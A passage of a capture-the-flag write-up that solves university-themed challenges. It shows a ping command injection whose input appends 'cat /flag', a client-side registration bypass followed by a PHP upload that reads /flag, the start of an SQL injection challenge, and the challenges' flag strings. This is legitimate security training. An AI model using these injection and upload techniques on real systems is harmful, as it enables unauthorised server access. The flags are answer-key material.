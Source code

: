 Specify the input `-n 1 8.8.8.8; cat /flag`. This will result in `ping -n 1 8.8.8.8; cat /flag` being executed.

![Flag: `CTF{sCr1pTI3_k1Ddie5_c4nN0t_pR0gRaM_aNyThIng!!11one!}`](images/ping-of-death.png)
## cssubmit v2.0 (15 points)

> The UWA Computer Science Department recentally hired a team of CITS3200 students to build the new CSSubmit v2.0 website to replace the old CSSubmit website. However, the students were unable to complete the platform by the end of the unit, so it is still in **development** and still has **registrations disabled**.
>
> In their final sprint 3 documentation, they also noted that they were unable to implement the **file type check for submitting assignments**. However, they assumed that it was an unnecessary requirement for the project, hence why it was never completed.
>
> **Can you execute terminal commands on the server and read the flag at `/flag`?**

The description hints at unrestricted file upload. Registration, similar to `I Want To Join`, is only disabled on client-side.

Getting past registration, you are given the option to submit files. The url `home.php` also hints at what to upload.

Upload the following file, and view it:
```php
<?php
	echo file_get_contents("/flag")
?>
```

Flag: `CTF{cH3cK_Y0uR_f1L3_tYp3s_0r_g1t_w33b_sH3lL51!!!!1!}`

## My First PHP Site (15 points)

> My first PHP website looks extremely cool! However, some random Security researchers keep on contacting me about *"several injection vulnerabilities"*. In all honesty I have no idea what they are talking about, so can you test my website and find the vulnerabilities for me?

> The flag is in the table called **flag** on the database.

The description hints at SQL injection.
